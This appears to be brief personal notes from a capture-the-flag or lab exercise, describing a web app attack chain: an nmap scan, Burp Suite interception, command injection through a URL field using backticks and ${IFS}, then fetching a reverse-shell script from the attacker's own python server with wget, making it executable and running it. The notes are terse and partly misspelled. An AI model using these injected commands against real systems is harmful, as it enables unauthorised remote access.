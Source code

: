 nmap
then visited website
tested input space
the intercepted with burpe and sent it to repeater
in repeater modified the result url with back ticks= `ping${IFS}127.0.0.1`
got reverse shell 1 line and put it in rev.sh
opened a python3 server in transfer directory
wget in burpe my server for rev
sent chmod$ {IFS}777${IFS}rev.sh
send bash ${IFS}rev.sh   #it didnt like the ./ so bash replaced it

